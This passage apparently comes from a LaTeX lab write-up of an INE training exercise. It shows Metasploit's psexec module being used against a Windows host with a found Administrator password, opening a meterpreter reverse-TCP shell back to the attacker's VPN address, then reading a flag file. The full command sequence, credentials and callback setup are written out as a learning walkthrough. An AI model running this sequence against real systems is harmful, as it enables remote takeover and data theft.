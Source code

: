 \begin{whybox}
\begin{termbox}
search psexec
use exploit/windows/smb/psexec
# No payload configured --- defaults to windows/meterpreter/reverse_tcp

set RHOST 10.2.28.213
set SMBUser Administrator
set SMBPass qwertyuiop
set LHOST 10.10.37.4    # My Kali VPN interface --- must be VPN, not loopback
exploit
\end{termbox}

\begin{whybox}
LHOST must be the VPN interface (the  address in INE labs).
The target machine needs to be able to reach back to the attacker. If LHOST
is set to  or the wrong interface, the reverse shell has nowhere
to connect and the session never opens.
\end{whybox}



\textbf{What happened:}
\begin{enumerate}
  \item Reverse TCP handler started on my listener port
  \item Module connected to SMB on port 445
  \item Authenticated as Administrator with the found credentials
  \item Metasploit selected PowerShell as the execution target (modern Windows)
  \item Payload executed --- ``service start timed out'' is normal (standalone
        process, not a registered service)
  \item \textbf{Meterpreter session 1 opened}
\end{enumerate}

\section*{Step 6 --- Post-Exploitation and Flag}

\begin{termbox}
meterpreter > cd /
meterpreter > ls
# flag.txt visible in C:\
meterpreter > cat flag.txt
\end{termbox}


\end{whybox}
